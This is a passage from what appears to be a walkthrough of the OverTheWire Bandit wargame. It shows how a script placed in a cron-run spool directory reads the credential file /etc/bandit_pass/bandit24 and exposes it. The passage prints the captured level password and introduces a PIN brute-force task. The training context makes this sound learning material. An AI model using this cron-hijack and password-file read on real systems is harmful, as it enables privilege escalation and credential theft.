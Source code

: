 ```bash
        fi
        rm -f ./$i
    fi
done
```

It runs scripts owned by bandit23 in `/var/spool/bandit24/foo/`.

Step 2: Create a working directory
```bash
bandit23@bandit:~$ mkdir /tmp/myscript24
bandit23@bandit:~$ cd /tmp/myscript24
bandit23@bandit:/tmp/myscript24$ chmod 777 /tmp/myscript24
```

Step 3: Create a script to copy the password
```bash
bandit23@bandit:/tmp/myscript24$ cat > script.sh << 'EOF'
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/myscript24/password
chmod 666 /tmp/myscript24/password
EOF
```

Step 4: Make it executable
```bash
bandit23@bandit:/tmp/myscript24$ chmod 777 script.sh
```

Step 5: Copy it to the cron directory
```bash
bandit23@bandit:/tmp/myscript24$ cp script.sh /var/spool/bandit24/foo/
```

Step 6: Wait for cron to run (about 1 minute), then check
```bash
bandit23@bandit:/tmp/myscript24$ ls -la
total 12
drwxrwxrwx  2 bandit23 bandit23 4096 Oct 15 12:00 .
dr-xr-xr-x 17 root     root     4096 Oct 15 12:00 ..
-rw-rw-rw-  1 bandit24 bandit23   33 Oct 15 12:01 password
-rwxrwxrwx  1 bandit23 bandit23   93 Oct 15 12:00 script.sh

bandit23@bandit:/tmp/myscript24$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

**Password for Level 24**: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

---

## Level 24 → Level 25

> **Level Goal**: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
